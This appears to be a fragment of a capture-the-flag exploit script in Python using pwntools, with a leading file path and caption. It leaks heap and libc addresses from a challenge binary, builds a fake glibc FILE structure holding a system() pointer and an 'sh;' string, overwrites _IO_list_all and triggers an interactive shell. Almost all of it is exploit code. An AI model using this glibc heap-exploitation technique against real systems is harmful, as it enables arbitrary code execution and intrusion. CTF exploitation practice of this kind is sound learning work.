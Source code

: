 ```py
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("addr: ")
    p.sendline(hex(addr))
    p.recvuntil("count: ")
    p.sendline(str(cnt))

def edit(addr, size, content):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("addr: ")
    p.sendline(hex(addr))
    p.recvuntil("count: ")
    p.sendline(str(size))
    sleep(0.1)
    p.send(content)

# leak first
add(0x410)
heap_leak = int(p.recvline().strip(), 16)
log.info("heap_leak: " + hex(heap_leak))

add(0x20)
chunk2_addr = int(p.recvline().strip(), 16)
log.info("chunk2_addr: " + hex(chunk2_addr))
add(0x20)
chunk3_addr = int(p.recvline().strip(), 16)
log.info("chunk3_addr: " + hex(chunk3_addr))
delete(heap_leak)
show(heap_leak, 0x20)
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc_leak: " + hex(libc_leak))   
libc_base = libc_leak - 0x203b20
log.info("libc_base: " + hex(libc_base))

# construct io file
fake_io_addr = heap_leak + 0x20
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x205700)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x0202228+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)
edit(heap_leak + 0x20, 0xe8, fake_io_file)
io_list_all = libc_base + 0x02044C0
edit(io_list_all, 8, p64(heap_leak + 0x20))
# gdb.attach(p)
# pause()

p.recvuntil("> ")
p.sendline("5")
p.interactive()
```
